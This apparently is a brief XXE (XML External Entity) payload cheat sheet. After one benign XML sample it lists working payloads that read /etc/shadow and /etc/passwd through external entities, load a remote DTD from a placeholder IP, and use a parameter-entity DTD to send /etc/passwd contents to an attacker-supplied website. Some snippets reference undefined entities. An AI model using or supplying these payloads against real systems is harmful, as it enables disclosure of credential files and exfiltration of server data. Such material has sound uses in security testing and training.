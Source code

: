 XXE: Basic XML Example

<?xml version="1.0" encoding="utf-8"?>
	<userInfo>
	  <firstName>Rahul</firstName>
  	  <lastName>Jain</lastName>
 	</userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Entity Example

<?xml version="1.0" encoding="utf-8"?>

	<!DOCTYPE replace [
	<!ENTITY test "Doe"> ]> 
	 <userInfo>
  	   <firstName>Rahul</firstName>
	   <lastName>&test;</lastName>
 	 </userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: File Disclosure Example 

<?xml version="1.0" encoding="utf-8"?>
	
	<!DOCTYPE replace [
	 <!ENTITY test SYSTEM "file:///etc/shadow"> ]>
	 <userInfo>
	   <firstName>Rahul</firstName>
 	   <lastName>&test;</lastName>
	 </userInfo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Local File Inclusion Example

<?xml version="1.0" encoding="utf-8"?>
 	<!DOCTYPE foo [  
	<!ELEMENT foo (#ANY)>
	<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
	<foo>&xxe;</foo>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Server Side Request Forgery Example

<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE reset [
	<!ENTITY % remote SYSTEM 'http://IP/file_name'>
	%remote;
	%int;
	%trick; ]>

----------------------------------------------------------------------------------------------------------------------------------------------------------

XXE: Payload Using DTD File

	<!ENTITY % a SYSTEM 'file:///etc/passwd'>
	<!ENTITY % b "<!ENTITY &#x25; c SYSTEM 'your website/cookie=?%a;'> " > 
	%b;
	%c;

(&#x25),(&#37) Are the  Hex and decimal value of (%)

To Call This File   

<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE xxe [
	<!ENTITY % remote SYSTEM 'http://IP/file_name'>
	%remote;

----------------------------------------------------------------------------------------------------------------------------------------------------------
